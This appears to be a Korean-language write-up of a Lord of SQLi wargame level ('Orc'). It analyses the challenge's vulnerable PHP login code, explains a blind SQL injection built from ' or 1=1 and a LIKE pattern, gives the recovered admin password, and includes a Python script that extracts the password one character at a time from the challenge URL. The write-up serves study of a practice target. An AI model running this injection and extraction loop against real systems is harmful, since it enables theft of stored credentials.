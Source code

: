 # Level 4 - Orc

## 문제

![문제](screenshot/L4_Orc_prob.PNG)

## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind SQL을 수행할 수 있는가? (사실 풀기 전에 이걸 Blind라 부르는 것도 몰랐음)

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  /* addslashes() 함수는 인자로 들어간 문자열에 있는 특수 기호들, 특히 SQL문에
     영향을 줄수 있는 Single Quote, Double Quote, Backslash, NULL Byte같은 문자
     앞에 Slash를 추가해서 문자열로 인식될 수 있도록 문자열을 만드는 함수이다.
     여기선 GET으로 받은 pw에 슬래시를 추가한다. */
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  /* 이 코드는 슬래시 처리를 한 쿼리의 결과값을 저장한 result 변수에 pw 필드가
     존재하는지, 그리고 GET으로 받은 pw와 DB에 저장된 pw 값이 같은 지 비교한다.
     만약 pw가 맞다면 solve() 함수를 호출한다. */
  highlight_file(__FILE__);
?>
```

## 문제 풀이

12번째 라인 코드를 보면 문제를 통과하기 위해선 간단한 SQL 인젝션이 아닌 DB에 저장되어 있는 비밀번호를 알아내야 한다. 이 문제는 **LIKE** 문을 이용하면 된다. 먼저 pw 필드에 **‘ or 1=1**을 넣어서 코드에 있는 Where 조건문을 무시한다. 그 다음 LIKE 문을 사용해서 pw 필드를 하나씩 맞춰 가면 된다. LIKE문을 사용하면 인자로 주어진 패턴을 비교할 수 있는데, 만약 pw like '28%'을 쿼리 뒤에 넣게 되면 레코드의 pw 필드가 28로 시작하는 레코드를 조회할수 있게 된다.
이 문제에서 LIKE문을 사용할 수 있는 이유는 8번째 라인 코드 때문인데, LIKE 문에 충족하는 레코드가 존재하지 않는다면 아무것도 뜨지 않기 때문에 PW를 비교하는 LIKE 문의 참 거짓을 알아 낼수 있게 된다.

![how i did it](screenshot/L4_Orc_proc.PNG)

그렇게 LIKE 문을 이용해서 한자리씩 눈물을 흘려가며 찾을 결과 Admin의 pw가 295d5844임을 알아 낼수 있게 됐다. charset이 다행히 크지 않아서 빠르게 비밀번호를 찾을수 있었던 것 같다.

### 코오딩을 하자 코오딩

코딩을 하면 이러한 노가다를 할 필요가 없다! 내가 왜 이런짓을 했을까

```python
import urllib.request

admin = "admin"
password = ""

for pw_length in range(1, 9):
    for pw in range(48, 123):
        candidate = password + chr(pw)
        url1 = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php"
        url2 = "?pw=' or 1=1 and pw like \'" + candidate + "%'%23"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:50.0) Gecko/20100101 Firefox/50.0")
        res.add_header(
            "Cookie", "PHPSESSID=??????????????????????"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            password = password + chr(pw)
            print(password)
            break
print("PW = ", password)
```

다음 파이썬 코드를 실행하면 admin의 pw 필드의 값을 한자리씩 뽑아준다!

![solve](screenshot/L4_Orc_clear.PNG)